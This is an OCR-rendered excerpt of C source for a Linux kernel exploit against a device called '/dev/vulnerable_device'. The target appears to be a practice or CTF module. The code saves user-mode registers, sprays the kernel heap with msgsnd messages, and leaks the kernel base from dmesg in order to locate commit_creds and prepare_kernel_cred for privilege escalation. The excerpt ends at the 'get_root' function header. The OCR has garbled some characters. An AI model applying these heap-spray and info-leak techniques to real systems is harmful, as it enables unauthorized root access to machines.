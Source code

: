 ```
    printf("user_ss = %pn",user_ss);
    printf("user_rsp = %pn",user_rsp);
    printf("user_rflags = %pn",user_rflags);
    puts("[+] Save Success");
`}`

int heap_spray_msgsnd(int fd, size_t target, size_t arg)`{`
    int new_len = BUFF_SIZE - 48;
    struct `{`
        size_t mtype;
        char mtext[new_len];
    `}` msg;

    memset(msg.mtext,0x42,new_len-1);
    memcpy(msg.mtext+56-48,&amp;arg,sizeof(long));
    memcpy(msg.mtext+56-48+(sizeof(long)),&amp;target,sizeof(long));
    msg.mtext[new_len]=0;
    msg.mtype=1; 

    int msqid=msgget(IPC_PRIVATE,0644 | IPC_CREAT);

    ioctl(fd, 0xFE03, NULL);
    ioctl(fd, 0xFE06, NULL);

    for (int i=0;i&lt;120;i++)`{`
        msgsnd(msqid,&amp;msg,sizeof(msg.mtext),0);
    `}`

    ioctl(fd, 0xFE04, NULL);
`}`

void leak_kernel_base()`{`
    pid_t pid=fork();
    if (pid==0)`{`
        int fd_child = open("/dev/vulnerable_device",0);
        if (fd_child &lt; 0)`{`
            puts("open fail!");
            return 0;
        `}`
        heap_spray_msgsnd(fd_child,0x4444444444444444,0);
        exit(0);
    `}`

    wait(NULL);

    printf("[+] Begin to leak address by dmesg![+]n");

    system(GREP_INFOLEAK);

    long addr = 0;
    FILE *fd = fopen("/tmp/infoleak", "r");

    fscanf(fd, "%lx", &amp;addr);
    fclose(fd);

    size_t kernel_base = addr - sys_ioctl_offset;
    printf("[+] Kernel base addr : %p [+] n", kernel_base);
    native_write_cr4_addr += kernel_base;
    prepare_kernel_cred_addr += kernel_base;
    commit_creds_addr += kernel_base;
`}`

void get_root()
```